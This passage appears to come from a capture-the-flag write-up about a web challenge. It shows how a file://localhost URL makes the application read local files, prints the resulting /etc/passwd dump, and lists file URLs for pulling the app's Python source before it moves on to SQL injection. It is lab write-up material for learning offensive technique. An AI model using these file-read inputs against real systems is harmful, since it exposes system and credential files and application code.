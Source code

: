 >```
>[...]
>Malformed url ParseResult(scheme=u'file', netloc=u'', path=u'/etc/passwd', params='', query='', fragment='')
>[...]
>```

We can see that the url we give to the application is parsed and netloc is empty, maybe it expects at least a netloc?

> file://localhost/etc/passwd

>```bash
>Unknown file type: root:x:0:0:root:/root:/bin/bash
>daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
>bin:x:2:2:bin:/bin:/usr/sbin/nologin
>sys:x:3:3:sys:/dev:/usr/sbin/nologin
>sync:x:4:65534:sync:/bin:/bin/sync
>games:x:5:60:games:/usr/games:/usr/sbin/nologin
>man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
>lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
>mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
>news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
>uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
>proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
>www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
>backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
>list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
>irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
>gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
>nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
>libuuid:x:100:101::/var/lib/libuuid:
>syslog:x:101:104::/home/syslog:/bin/false
>messagebus:x:102:106::/var/run/dbus:/bin/false
>landscape:x:103:109::/var/lib/landscape:/bin/false
>sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
>pollinate:x:105:1::/var/cache/pollinate:/bin/false
>ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
>mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
>```

Bingo!

Now we can proceed to disclose the source code of the actual application:
>```
>file://localhost/var/www/weeb/server.py
>file://localhost/var/www/weeb/settings.py
>file://localhost/var/www/weeb/utils.py
>```
### Hello, SQLi, my old friend. I've come to talk with you again

Upon reading the application source code (in particular [server.py](challenge/server.py) and [settings.py](challenge/settings.py)) we learn some new things: 
